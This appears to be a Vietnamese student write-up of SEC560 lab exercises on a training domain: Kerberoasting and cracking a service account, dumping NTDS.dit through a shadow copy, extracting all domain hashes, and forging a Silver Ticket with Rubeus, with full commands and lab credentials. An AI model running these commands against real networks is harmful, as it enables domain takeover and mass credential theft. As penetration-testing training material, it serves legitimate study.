# LAB 5: Domain Domination and Azure Annihilation

## Table of Contents

- [Tổng quan Lab 5:](#tổng-quan-lab-5)
- [Lab 5.1: Kerberoast](#lab-51-kerberoast)
- [Cấu hình máy ảo](#cấu-hình-máy-ảo)
- [Cấu hình mạng với vmnet8 như sau:](#cấu-hình-mạng-với-vmnet8-như-sau)
- [Các bước thực hiện](#các-bước-thực-hiện)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Lab 5.2 - Domain Dominance](#lab-52---domain-dominance)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Lab 5.4: Silver Ticket](#lab-54-silver-ticket)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Lab 5.5: Golden Ticket](#lab-55-golden-ticket)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)

---


## Tổng quan Lab 5:

| Lab 5.1 | Kerberoast | 86 |
| --- | --- | --- |
| Lab 5.2 | Domain Dominance | 96 |
| Lab 5.3 | Attacking AD CS with ESC1 | 104 |
| Lab 5.4 | Silver Ticket | 121 |
| Lab 5.5 | Golden Ticket | 136 |
| Lab 5.6 | Azure Recon and Password Spraying | 146 |
| Lab 5.7 | Running Commands | 158 |
| Lab 5.8 | Gaining Access and Moving Laterally | 172 |

Thực hiện các bài lab được bôi xanh.

Mô hình mạng được tri:

SEC560 Slingshot Linux (I01):

SEC560 Windows 10 (I01): 10.130.10.25

PC02:

ParrotSec6.0:

## Lab 5.1: Kerberoast

## Cấu hình máy ảo

Sử dụng Slingshot Linux và
## Cấu hình mạng với vmnet8 như sau:


```bash
Ping từ máy Slingshot linux tới máy Hiboxy DC:
```



## Các bước thực hiện

Hãy mở máy ảo Slingshot Linux lên và bắt đầu cuộc đi săn! Đầu tiên, để đảm bảo kết quả bẻ khóa là mới hoàn toàn, hãy dọn dẹp các tệp lưu trữ kết quả cũ bằng lệnh:

```bash
rm /home/sec560/.local/share/hashcat/hashcat.potfile
```

```bash
rm ~/.john/john.pot
```



## Mục tiêu của chúng ta:

Yêu cầu và lấy các vé dịch vụ (TGS) mã hóa bằng RC4 của các tài khoản SPN.

Dùng công cụ Hashcat để bẻ khóa tấm vé này.

Tận dụng tài khoản vừa bẻ khóa được để chiếm quyền kiểm soát máy chủ Domain Controller (DC01).

Bước 1: Thu thập Vé Dịch vụ (TGS)

Chúng ta đã có sẵn thông tin đăng nhập của một nhân viên bình thường tên là bgreen (mật khẩu Password1) từ các bài lab trước. Chúng ta sẽ dùng tài khoản cấp thấp này để gõ cửa máy chủ Domain Controller (10.130.10.4) và yêu cầu nó giao nộp danh sách các tài khoản đang chạy dịch vụ, kèm theo vé TGS của họ.

Thực hành:

Trước tiên ta phải set host tương ứng với địa chỉ IP để không gặp lỗi:

```bash
echo "10.130.10.10  hiboxy.com" | sudo tee -a /etc/hosts
```



Sử dụng công cụ GetUserSPNs.py của bộ Impacket để trích xuất vé:

```bash
GetUserSPNs.py hiboxy.com/bgreen:Password1 -dc-ip 10.130.10.4 -request | tee /tmp/spns.output
```



Phân tích đơn giản:

-request: Tùy chọn cực kỳ quan trọng, ra lệnh cho công cụ không chỉ liệt kê tên tài khoản mà phải "xin" luôn tấm vé (Ticket) mang về.

-dc-ip: Trỏ tới địa chỉ IP của máy chủ Domain Controller.

tee: Vừa hiển thị kết quả lên màn hình, vừa lưu lại vào file /tmp/spns.output để dùng sau.

Kết quả: Nhìn vào đầu ra, bạn sẽ thấy hệ thống trả về vé của các tài khoản như SVC_SQLService và SVC_SQLService2 dưới định dạng chuỗi mã băm bắt đầu bằng $krb5tgs$23$. Đây chính là những chiếc hộp khóa kín chứa mật khẩu mà ta đang tìm kiếm!

Bước 2: Lọc dữ liệu và Bẻ khóa với Hashcat

Bây giờ chúng ta đã có vé, việc tiếp theo là tách phần mã băm ra khỏi các thông tin thừa thãi và cho cỗ máy bẻ khóa Hashcat hoạt động.

Thực hành:

Dùng lệnh grep để chỉ lọc ra những dòng chứa mã băm (có chữ krb5tgs) và lưu vào file mới:

```bash
grep krb5tgs /tmp/spns.output > /tmp/tickets
```



Sử dụng Hashcat để bẻ khóa file tickets vừa tạo. (Lưu ý: Hashcat quy định mã số của thuật toán Kerberos 5 TGS là 13100):

```bash
hashcat -w 3 -a 6 -m 13100 /tmp/tickets /opt/passwords/english-dictionary-capitalized.txt ?d
```



Phân tích đơn giản: Bằng cách dùng chế độ Hybrid (-a 6) kết hợp từ điển tiếng Anh và thêm một chữ số ở đuôi (?d), Hashcat sẽ thử hàng vạn mật khẩu cho đến khi khớp. Chỉ sau khoảng một phút, Hashcat sẽ báo tin vui: Mật khẩu của tài khoản SVC_SQLService2 đã được bẻ khóa thành công (ví dụ mật khẩu là Supercool7).

Bước 3: Tận hưởng đặc quyền Domain Admin

Tài khoản SVC_SQLService2 nghe có vẻ chỉ là một tài khoản chạy dịch vụ cơ sở dữ liệu bình thường. Nhưng trong thực tế, các quản trị viên hệ thống thường có thói quen xấu là cấp quyền Admin cho các tài khoản dịch vụ này để phần mềm "chạy cho dễ, đỡ báo lỗi". Hãy xem nó có quyền gì nhé!

Thực hành:

Hãy xóa sạch màn hình terminal cho dễ nhìn bằng lệnh clear.

Dùng công cụ wmiexec.py (mà bạn đã học ở bài trước) để nhảy thẳng vào máy chủ Domain Controller bằng tài khoản vừa bẻ khóa được:

```bash
wmiexec.py hiboxy.com/SVC_SQLService:Supercool7@10.130.10.10 hostname
```

(Nếu thành công, nó sẽ in ra tên máy chủ là dc01).



Tiếp tục gõ mũi tên lên, xóa chữ hostname và thay bằng lệnh kiểm tra quyền hạn của tài khoản này:

```bash
wmiexec.py hiboxy.com/SVC_SQLService:Supercool7@10.130.10.10 "net user SVC_SQLService /domain"
```



Phân tích đơn giản: Lệnh net user hiển thị chi tiết các nhóm mà tài khoản SVC_SQLService đang thuộc về. Bùm! Một trong số đó là nhóm Domain Admins (Quản trị viên toàn hệ thống)!
**Tổng kết: Xin chúc mừng! Chỉ từ một tài khoản nhân viên quèn ban đầu, bằng kỹ thuật Kerberoasting, bạn đã trích xuất được vé mã hóa, bẻ khóa nó, và chiếm được một tài khoản có quyền cai trị toàn bộ mạng lưới của công ty. Điều đáng sợ nhất của Kerberoasting là nó không dựa vào lỗi phần mềm, do đó rất khó để các hệ thống phòng thủ ngăn chặn hoàn toàn mà không làm ảnh hưởng đến hoạt động bình thường của Windows.**

## Lab 5.2 - Domain Dominance
## Mục tiêu của chúng ta:

Tạo một bản sao (shadow copy) của file NTDS.dit trên máy chủ Domain Controller (10.130.10.4).

Trích xuất bản sao đó mang về máy tính của kẻ tấn công.

Giải mã và vét cạn toàn bộ mật khẩu của cả mạng lưới Active Directory.

Bước 1 & 2: Thâm nhập máy chủ và Kiểm tra bản sao (Shadow Copies)

Sử dụng bộ công cụ Impacket thần thánh, chúng ta sẽ dùng tài khoản Domain Admin vừa lấy được để mở một phiên dòng lệnh trực tiếp vào máy chủ Domain Controller (DC01). Sau đó, ta sẽ ngó nghiêng xem hệ thống có đang lưu bản chụp (snapshot) nào của ổ đĩa không.

Thực hành:

Mở Terminal trên Linux, dùng wmiexec.py để thâm nhập máy chủ DC (10.130.10.10) bằng tài khoản SVC_SQLService.

```bash
wmiexec.py hiboxy.com/SVC_SQLService:Supercool7@10.130.10.10
```



Khi dấu nhắc C:\> hiện ra, dùng công cụ vssadmin mặc định của Windows để liệt kê các bản chụp:

```bash
vssadmin.exe list shadows
```



Phân tích đơn giản: Như đã nói, file NTDS.dit đang bị khóa bởi hệ điều hành. vssadmin là công cụ dùng để quản lý tính năng sao lưu ẩn của Windows (Volume Shadow Copy). Nếu kết quả trả về No items found that satisfy the query. nghĩa là máy chưa có bản sao nào, và ta phải tự tay tạo ra nó.

Bước 3 & 4: "Chụp ảnh" hệ thống và Trộm kho báu

Hành động! Ta sẽ ra lệnh cho Windows tự chụp lại một bức ảnh toàn cảnh của ổ đĩa C. Tại thời điểm bức ảnh được chụp, file NTDS.dit trong đó sẽ nằm ở trạng thái "đóng băng" và cho phép ta copy thoải mái. Tuy nhiên, rương báu NTDS lại bị khóa bằng mật mã mã hóa. Chìa khóa để mở nó nằm trong một file hệ thống khác gọi là System Hive (trong Registry). Ta phải trộm cả hai!

Thực hành:

Ra lệnh tạo một bản chụp (Shadow copy) mới cho ổ C:

```bash
vssadmin create shadow /for=c:
```

(Hãy chú ý đến con số ở dòng Shadow Copy Volume Name, ví dụ: HarddiskVolumeShadowCopy1).



Copy file NTDS.dit từ bản chụp ảo đó ra một thư mục thật trên ổ C (c:\extract):

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\extract\ntds.dit
```

(Thay số 1 bằng đúng số Volume mà hệ thống vừa báo cho bạn).



Trích xuất file chìa khóa system từ Registry ra cùng thư mục:

```bash
reg save hklm\system c:\extract\system /y
```



Phân tích đơn giản: Cờ /y trong lệnh reg rất lợi hại, nó giúp tự động ghi đè nếu file đã tồn tại, tránh trường hợp lệnh bị treo vĩnh viễn hỏi bạn có muốn ghi đè hay không. Giờ đây, "Rương báu" và "Chìa khóa" đều đã nằm gọn trong thư mục C:\extract. Hãy gõ exit để thoát khỏi shell này nhé.

Bước 6: Vận chuyển chiến lợi phẩm (Data Exfiltration)

(Lưu ý: Bước 5 bị bỏ qua theo đúng giáo trình)

Chiến lợi phẩm đã được đóng gói xong trên máy chủ nạn nhân. Là một hacker, ta không bao giờ phân tích dữ liệu trực tiếp trên máy mục tiêu vì rất dễ bị phát hiện. Ta sẽ dùng giao thức chia sẻ file SMB để tải ngược hai file này về hang ổ Linux của mình.

Thực hành:

Khởi động công cụ smbclient.py của Impacket để kết nối lại vào máy chủ:

```bash
smbclient.py hiboxy.com/SVC_SQLService:Supercool7@10.130.10.10
```



Tương tác với hệ thống để lấy file về:

```bash
use c$
```

```bash
cd extract
```

get ntds.dit

get system

```bash
exit
```



Phân tích đơn giản: Lệnh get sẽ âm thầm sao chép các file nặng nề này qua mạng. (Mẹo nhỏ trong thực tế/Lab: File NTDS.dit thường có dung lượng rất lớn (~70MB trở lên). Để tiết kiệm thời gian ngồi tải, trong lab này hai file đó đã được ban tổ chức tải sẵn và đặt tại thư mục ~/labs trên máy Linux của bạn).

Bước 7: Mở khóa Rương báu (Extracting Hashes)

Mọi thứ đã chuẩn bị xong. Máy tính của ta giờ ngắt hoàn toàn với mạng của nạn nhân (offline attack), mọi thao tác từ giờ trở đi đều vô hình trước hệ thống cảnh báo của công ty. Cùng mổ xẻ dữ liệu thôi!

Thực hành:

Dùng công cụ secretsdump.py chỉ định file rương (-ntds) và file chìa khóa (-system) để xuất toàn bộ kết quả ra file hashes.txt:

```bash
secretsdump.py -ntds ~/labs/ntds.dit -system ~/labs/system -outputfile /tmp/hashes.txt LOCAL
```





Phân tích đơn giản: Chữ LOCAL ở cuối lệnh đặc biệt quan trọng: Nó dặn công cụ secretsdump.py rằng "hãy giải mã các file tôi đang để sẵn trên ổ cứng cục bộ này, đừng cố kết nối mạng". Chỉ sau vài giây xử lý, công cụ sẽ phun ra một danh sách chứa MỌI tài khoản (Users) và MỌI máy tính (Computers) hiện có trong toàn bộ tổ chức, kèm theo mã băm mật khẩu của chúng. Bạn sẽ thấy cả tài khoản vĩ đại nhất: Administrator hay tài khoản krbtgt.
**Tổng kết: Thắng lợi tuyệt đối! Bằng việc trích xuất thành công NTDS.dit, bạn đã chính thức nắm giữ chiếc chìa khóa vạn năng của vương quốc. Với bộ Hash khổng lồ này, giờ đây bạn có thể:**

Thong thả ngồi bẻ khóa mật khẩu của sếp tổng (Cracking).

Dùng kỹ thuật Pass-the-Hash để lượn lờ khắp mọi máy tính.

Sử dụng Hash của tài khoản krbtgt để rèn ra "Vé Vàng" (Golden Ticket) - thứ quyền lực bóng tối duy trì quyền truy cập vĩnh viễn không thể bị chặn lại.

## Lab 5.4: Silver Ticket
## Mục tiêu của chúng ta:

Sử dụng Rubeus để truy cập vào máy chủ tệp tin (file01) dưới danh nghĩa người dùng bgreen.

Dùng mã băm của máy chủ file01 để tạo Silver Ticket cho dịch vụ chia sẻ file (CIFS).

Tạo ra một tấm vé với thông tin người dùng hoàn toàn giả mạo (pwned) để vượt qua các hệ thống giám sát.

Bước 1: Chuẩn bị Mạng và DNS

Do máy ảo Windows 10 của chúng ta không nằm trong domain của công ty mục tiêu (hiboxy.com), chúng ta cần trỏ DNS của máy mình về máy chủ Domain Controller (10.130.10.4) để có thể phân giải được các tên miền nội bộ.

Thực hành:

Trên Desktop của Windows 10, nhấp chuột phải vào biểu tượng PowerShell - Run as Administrator và chạy với quyền Quản trị viên.

Gõ lệnh sau để thêm luật phân giải DNS riêng cho tên miền hiboxy.com:

```bash
Add-DnsClientNrptRule -Namespace "hiboxy.com" -NameServers 10.130.10.10
```



Phân tích đơn giản: Lệnh này chỉ thay đổi cách máy tính tra cứu tên miền cho hiboxy.com một cách âm thầm, giúp chúng ta tránh bị phát hiện bởi các bộ lọc DNS hoặc hệ thống giám sát mạng. Lệnh chạy thành công sẽ không hiển thị output gì cả.

Bước 2: Thử truy cập theo cách "người bình thường"

Trước khi dùng thủ đoạn, hãy thử xem người dùng bình thường bgreen có thể truy cập vào ổ C ẩn của máy chủ chia sẻ tệp tin hay không.

Thực hành:

Mở một cửa sổ Command Prompt (cmd) mới dưới danh nghĩa tài khoản bgreen (mật khẩu: Password1):

runas /user:hiboxy.com\bgreen /netonly cmd.exe



Trong cửa sổ đen mới hiện ra, hãy thử liệt kê danh sách tệp tin trong ổ C của máy chủ file01:

dir \\file01.hiboxy.com\c$



Phân tích đơn giản: Bạn sẽ nhận được thông báo lỗi kinh điển: Access is denied. (Từ chối truy cập). Điều này là hiển nhiên vì anh chàng bgreen không phải là Quản trị viên (Admin) của máy chủ file01.

Bước 3: Thu thập nguyên liệu đúc vé (Lấy SID)

Để đúc một tấm Vé bạc, chúng ta cần 3 nguyên liệu: Tên dịch vụ (CIFS), Mã băm của máy chủ mục tiêu (ta giả định đã lấy được từ trước là 32768ffb...), và Mã định danh an ninh của Domain (Domain SID). Hãy đi lấy SID.

Thực hành:

Mở một cửa sổ cmd khác, dùng bộ công cụ Impacket (lookupsid.py) để tra cứu thông tin SID từ Domain Controller:

```bash
lookupsid.py hiboxy.com/bgreen:Password1@10.130.10.10 520
```



Và chúng ta cũng cần phải lấy secret

```bash
secretsdump.py hiboxy.com/SVC_SQLService:Supercool7@10.130.10.10 -just-dc-user file01$
```



Phân tích đơn giản: Bạn hãy nhìn vào dòng có chữ Domain SID is: S-1-5-21-1165364801-2165540956-2109386109 Dãy số này chính là định danh độc nhất của hệ thống mạng. và Secret là: (Lưu ý: Dãy số của bạn trên màn hình có thể khác với trong tài liệu, hãy copy chính xác dãy số hiện trên máy của bạn nhé).

Bước 4: Đúc Vé Bạc với Rubeus

Nguyên liệu đã đủ, giờ là lúc dùng "Lò đúc vé" Rubeus. Chúng ta sẽ tạo một vé cho dịch vụ cifs (dịch vụ chia sẻ file), điền mã băm, điền SID và đóng giả làm bgreen.

Thực hành:

Chạy công cụ Rubeus :

```bash
C:\Tools\Rubeus.exe silver /service:cifs/file01.hiboxy.com /rc4:32768ffb5fb3982538802bbf94774b40 /sid:S-1-5-21-1165364801-2165540956-2109386109 /ptt /user:bgreen
```



Kiểm tra xem vé đã nằm trong ví của bạn chưa bằng lệnh:

klist



Dùng tấm vé vừa đúc để truy cập lại vào ổ C của máy chủ file01:

dir \\file01.hiboxy.com\c$



Phân tích đơn giản:

Cờ /ptt (Pass-The-Ticket) là tính năng cực hay, nó tự động tiêm thẳng tấm vé vừa đúc vào bộ nhớ RAM của bạn để sử dụng ngay lập tức.

